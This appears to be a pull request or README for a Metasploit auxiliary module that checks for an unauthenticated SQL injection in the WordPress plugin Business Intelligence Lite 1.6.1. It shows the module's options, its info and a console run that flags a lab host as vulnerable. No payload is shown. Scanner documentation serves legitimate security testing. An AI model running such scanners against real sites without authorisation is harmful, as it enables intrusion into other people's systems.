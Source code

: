 #### Add Wordpress Plugin Business Intelligence Lite SQL Injection Scanner.

  Application: Wordpress Plugin 'Business Intelligence Lite' 1.6.1
  Homepage: https://wordpress.org/plugins/wp-business-intelligence-lite/
  Source Code: https://downloads.wordpress.org/plugin/wp-business-intelligence-lite.1.6.1.zip
  References: https://wpvulndb.com/vulnerabilities/7879

#### Vulnerable packages*
        
  1.6.1
  
#### Usage:

##### Linux (Ubuntu 12.04.5 LTS):
```
msf > use auxiliary/scanner/http/wp_business_intelligent_sqli_scanner 
msf auxiliary(wp_business_intelligent_sqli_scanner) > show options 

Module options (auxiliary/scanner/http/wp_business_intelligent_sqli_scanner):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port
   SLEEP      7                yes       Calculate the response time (7 is default)
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host

msf auxiliary(wp_business_intelligent_sqli_scanner) > info

       Name: WordPress Business Inteligence Lite Unauthenticated SQLi Scanner
     Module: auxiliary/scanner/http/wp_business_intelligent_sqli_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-04-01

Provided by:
  Jagriti Sahu
  Roberto Soares Espreto

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port
  SLEEP      7                yes       Calculate the response time (7 is default)
  TARGETURI  /                yes       The base path to the wordpress application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host

Description:
  This module attempts to exploit SQL injection in Business 
  Intelligence Lite version 1.6.1 for WordPress and likely prior in 
  order if the instance is vulnerable.

References:
  https://wpvulndb.com/vulnerabilities/7879
  http://packetstormsecurity.com/files/131228/

msf auxiliary(wp_business_intelligent_sqli_scanner) > set RHOSTS 192.168.1.31
RHOSTS => 192.168.1.31
msf auxiliary(wp_business_intelligent_sqli_scanner) > run

[*] 192.168.1.31:80 - Checking host...
[+] 192.168.1.31:80 - Vulnerable to unauthenticated SQL injection in "Business Intelligence Lite 1.6.1" plugin for WordPress
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(wp_business_intelligent_sqli_scanner) > 
```
